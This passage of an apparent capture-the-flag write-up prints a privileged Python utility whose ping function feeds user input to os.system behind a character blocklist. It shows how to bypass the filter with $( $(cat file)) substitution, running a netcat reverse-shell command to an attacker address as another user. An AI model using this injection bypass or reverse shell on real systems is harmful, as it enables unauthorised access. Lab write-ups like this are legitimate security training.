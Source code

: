``` python

def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()

```
  Observing the `def exec_ping()` in the program we can see the filter ```['&', ';', '-', '`', '||', '|']``` which is the set of forbidden values for the input to the `os.system()` being called for pinging an IP. Note that it takes the value as user input. **Way to go!!!**
  Now thinking of possible ways to evade the filter, we can write the command we need to execute into a file and provide the file contents using `cat` as input to the program.
``` bash
$ echo "nc 10.10.14.3 1234 -r /bin/bash" > /tmp/payload.txt
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $( $(cat /tmp/payload.txt))
```
This results in a reverse shell with user `pepper` !!!
